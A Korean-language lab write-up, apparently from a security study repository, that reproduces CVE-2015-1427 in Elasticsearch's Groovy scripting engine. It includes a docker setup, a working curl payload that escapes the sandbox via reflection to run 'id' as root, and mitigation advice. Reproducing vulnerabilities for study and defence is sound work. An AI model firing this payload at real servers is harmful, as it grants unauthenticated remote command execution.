


# CVE-2015-1427

**Contributors**

- 박성현(@tjdgus2670)

### 요약

- Elasticsearch 1.4.3 미만 및 1.3.8 미만 버전의 Groovy 스크립팅 엔진에서 발생하는 샌드박스 우회 및 원격 코드 실행(RCE) 취약점입니다.
- 스크립트 실행 시 외부 명령을 제한하는 자바 샌드박스(Java Sandbox) 보호 조치를 우회하여, 인증되지 않은 원격의 공격자가 대상 서버에서 임의의 OS 명령어를 실행할 수 있습니다.
- 자바 리플렉션(Reflection)을 활용해 `java.lang.Runtime` 객체를 로드하여 내부 시스템 명령을 최고 권한(`root`)으로 실행할 수 있어 위험도가 매우 높습니다.

### 환경 구성 및 실행

- 다음 명령을 실행하여 취약점 테스트 환경을 백그라운드에서 구동합니다.

docker compose up -d

### 재현 절차

**1. 취약점 트리거를 위한 기초 데이터 등록**
Groovy 스크립트 엔진을 호출하기 위해서는 인덱스 내에 검색 대상 데이터가 최소 1건 이상 존재해야 하므로, 아래 `curl` 명령어로 테스트 데이터를 삽입합니다.

```bash
curl -XPOST 'http://localhost:9200/website/blog/' -H 'Content-Type: application/json' -d '
{
  "title": "CVE-2015-1427 Test"
}'
```

**2. 샌드박스 우회 및 RCE 공격 수행 (PoC)**
`java.lang.Math` 클래스를 경유하여 패키지 검사를 우회하고, 컨테이너 내부의 `id` 명령어를 실행하는 페이로드를 전송합니다.

```bash
curl -XPOST 'http://localhost:9200/_search?pretty' -H 'Content-Type: application/json' -d '
{
  "size": 1,
  "script_fields": {
    "lupin": {
      "script": "java.lang.Math.class.forName(\"java.lang.Runtime\").getRuntime().exec(\"id\").getText()"
    }
  }
}'
```

### 결과

- **데이터 등록 결과 (1단계)**
  새로운 인덱스가 생성되고 성공적으로 데이터가 바인딩되었음을 확인했습니다.



- **RCE 실행 결과 (2단계)**
  공격 페이로드 전송 후 응답 메시지의 `fields.lupin` 내부 배열에 내부 컨테이너의 최고 권한자 정보(`uid=0(root) gid=0(root) groups=0(root)`)가 출력되어 RCE가 성공했음을 증명합니다.



### 대응 방안

**1. Elasticsearch 버전 업그레이드 (최선책)**
- 취약점이 해결된 Elasticsearch **1.3.8 이상** 또는 **1.4.3 이상** 버전으로 업데이트를 수행합니다.

**2. 동적 스크립팅 기능 비활성화 (차선책)**
- 즉각적인 업그레이드가 불가능한 경우, `elasticsearch.yml` 파일에 아래 옵션을 추가하여 Groovy 동적 스크립트 실행 기능을 차단합니다.
  ```yaml
  script.disable_dynamic: true
  ```

**3. 네트워크 접근 제어 (인프라 보안)**
- Elasticsearch 서비스 포트(9200, 9300)가 공인 인터넷에 노출되지 않도록 방화벽 및 접근 제어 목록(ACL)을 설정하여 허용된 내부 IP에서만 접근 가능하도록 제한합니다.

### 자체 평가 점수

- **Reproducibility (100%)**
  - 독립된 클린 환경에서 본 `docker-compose.yml`과 제공된 `curl` 명령들의 복사-붙여넣기만으로 예외 없이 `root` 권한 탈취 결과가 동일하게 재현됨을 검증했습니다.
- **Risk Score (10.0 / Critical)**
  - **인증 필요 여부:** None (인증 없는 무단 접근 가능)
  - **원격 악용 가능 여부:** Yes (원격지에서 HTTP POST 요청으로 즉시 타격 가능)
  - **영향 범위:** High (호스트 및 컨테이너 최고 권한 장악으로 인한 시스템 전권 탈취 가능)
